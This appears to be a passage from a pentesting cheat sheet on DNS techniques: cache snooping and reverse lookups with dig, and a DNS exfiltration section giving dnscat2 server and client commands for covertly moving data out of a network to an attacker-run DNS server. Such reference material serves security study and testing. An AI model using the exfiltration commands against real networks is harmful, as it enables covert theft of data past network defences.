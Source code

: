 ### Cache Snooping
> Technique to determine if a DNS server has specific records in its cache.
```bash
dig @<dns-server> <domain> +norecurse
```

### Reverse DNS Lookup
> Reverse DNS lookup is a DNS query for the domain name associated with a given IP address.
```bash
dig -x <ip-address>
```

### DNS Exfiltration
> Data exfiltration over DNS involves encoding data in DNS queries and responses, allowing data to be extracted from a network covertly.

```bash
# Server side
dnscat2 --dns server=<dns-server-ip>:53

# Client side
dnscat2 <domain>
```